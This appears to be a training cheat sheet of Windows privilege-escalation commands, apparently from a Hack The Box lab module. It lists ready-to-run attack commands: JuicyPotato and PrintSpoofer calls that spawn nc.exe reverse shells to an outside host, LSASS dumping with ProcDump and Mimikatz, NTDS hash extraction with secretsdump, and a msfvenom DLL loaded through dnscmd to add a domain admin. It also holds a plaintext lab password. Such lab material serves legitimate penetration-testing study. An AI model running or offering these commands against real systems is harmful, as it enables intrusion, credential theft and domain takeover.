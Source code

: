 ## Handy Commands

| **Command**                                                                                                                                                                           | **Description**                                            |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------- |
| `mssqlclient.py sql_dev@10.129.43.30 -windows-auth`                                                                                                                                   | Connect using mssqlclient.py                               |
| `enable_xp_cmdshell`                                                                                                                                                                  | Enable xp_cmdshell with mssqlclient.py                     |
| `xp_cmdshell whoami`                                                                                                                                                                  | Run OS commands with xp_cmdshell                           |
| `c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 443 -e cmd.exe" -t *`                                                             | Escalate privileges with JuicyPotato                       |
| `c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"`                                                                                                               | Escalating privileges with PrintSpoofer                    |
| `procdump.exe -accepteula -ma lsass.exe lsass.dmp`                                                                                                                                    | Take memory dump with ProcDump                             |
| `sekurlsa::minidump lsass.dmp` and `sekurlsa::logonpasswords`                                                                                                                         | Use MimiKatz to extract credentials from LSASS memory dump |
| `dir /q C:\backups\wwwroot\web.config`                                                                                                                                                | Checking ownership of a file                               |
| `takeown /f C:\backups\wwwroot\web.config`                                                                                                                                            | Taking ownership of a file                                 |
| `Get-ChildItem -Path ‘C:\backups\wwwroot\web.config’ \| select name,directory, @{Name=“Owner”;Expression={(Ge t-ACL $_.Fullname).Owner}}`                                             | Confirming changed ownership of a file                     |
| `icacls “C:\backups\wwwroot\web.config” /grant htb-student:F`                                                                                                                         | Modifying a file ACL                                       |
| `secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL`                                                                                                            | Extract hashes with secretsdump.py                         |
| `robocopy /B E:\Windows\NTDS .\ntds ntds.dit`                                                                                                                                         | Copy files with ROBOCOPY                                   |
| `wevtutil qe Security /rd:true /f:text \| Select-String "/user"`                                                                                                                      | Searching security event logs                              |
| `wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 \| findstr "/user"`                                                                                       | Passing credentials to wevtutil                            |
| `Get-WinEvent -LogName security \| where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*' } \| Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}` | Searching event logs with PowerShell                       |
| `msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll`                                                                              | Generate malicious DLL                                     |
| `dnscmd.exe /config /serverlevelplugindll adduser.dll`                                                                                                                                | Loading a custom DLL with dnscmd                           |
| `wmic useraccount where name="netadm" get sid`                                                                                                                                        | Finding a user's SID                                       |
| `sc.exe sdshow DNS`                                                                                                                                                                   | Checking permissions on DNS service                        |
| `sc stop dns`                                                                                                                                                                         | Stopping a service                                         |
| `sc start dns`                                                                                                                                                                        | Starting a service                                         |